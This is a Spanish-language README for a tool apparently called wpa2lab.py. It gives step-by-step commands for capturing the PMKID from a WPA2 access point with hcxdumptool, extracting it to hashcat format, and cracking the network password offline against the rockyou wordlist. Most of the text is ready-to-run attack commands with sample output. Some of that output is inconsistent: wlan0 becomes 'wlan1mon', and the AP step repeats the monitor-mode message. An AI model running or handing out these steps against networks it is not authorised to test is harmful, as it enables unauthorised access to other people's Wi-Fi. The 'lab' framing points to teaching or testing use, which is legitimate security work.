 ## Objetivo
Sin desconectar al cliente, capturar la PMKID que el punto de acceso (AP) 
envía durante cada asociación y crackearla sin conexión.

## Requisitos
- Python 3.x  
- `wpa2lab.py` (este repositorio)  
- Adaptador Wi-Fi capaz de modo monitor  
- Herramientas externas:
  - `hcxdumptool` (incluye `hcxpcaptool`)
  - `hashcat` (v6.2 o superior)  
- Diccionario de contraseñas (ej. `/usr/share/wordlists/rockyou.txt`)  
- Permisos de super-usuario para operaciones con interfaz Wi-Fi  

## Instalación rápida
Clonar el repositorio y situarse en la carpeta:

```bash
git clone https://github.com/tu-usuario/wpa2lab.git
cd wpa2lab
```

Asegúrate de que `wpa2lab.py` sea ejecutable:

```bash
chmod +x wpa2lab.py
```

## Guía de uso exprés

### 1. Poner la tarjeta en modo monitor

```bash
sudo ./wpa2lab.py prepare --monitor wlan0
# → “Modo monitor activado en: wlan1mon”
```
###  Levantar AP en wlan1

```bash
sudo ./wpa2lab.py ap --ap wlan1
# → “Modo monitor activado en: wlan1mon”
```

### 2. Capturar la PMKID

```bash
sudo ./wpa2lab.py capture
# Capturando PMKID en wlan1mon → dump.pcapng
# (Pulsa Ctrl-C para detener la captura)
```

Esto genera un archivo `dump.pcapng` con todas las asociaciones 
AP↔cliente y los PMKID correspondientes.

### 3. Extraer el hash para Hashcat

```bash
sudo ./wpa2lab.py extract
# Extrae hash → hash.22000
```

Internamente se ejecuta:

```bash
hcxpcaptool -z hash.22000 dump.pcapng
```

### 4. Crackear sin conexión

```bash
sudo ./wpa2lab.py crack
```

Que lanza automáticamente:

```bash
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt
```

## ¿Cómo funciona el ataque de diccionario?
Hashcat recorre cada contraseña del fichero elegido (en el ejemplo 
`rockyou.txt`) y calcula la clave maestra necesaria para verificar si 
coincide con el hash PMKID extraído.  
Si la clave WPA2 de la red está dentro del diccionario, Hashcat la
descubrirá y la mostrará en pantalla.

## Archivos generados
- **dump.pcapng** – Captura de tráfico con PMKID  
- **hash.22000**  – Hash listo para Hashcat (formato modo 22000)

## Opciones adicionales
Todos los subcomandos aceptan `-h / --help` para ver parámetros 
opcionales como interfaz de captura, canal, salida personalizada, 
métodos de ataque, etc.
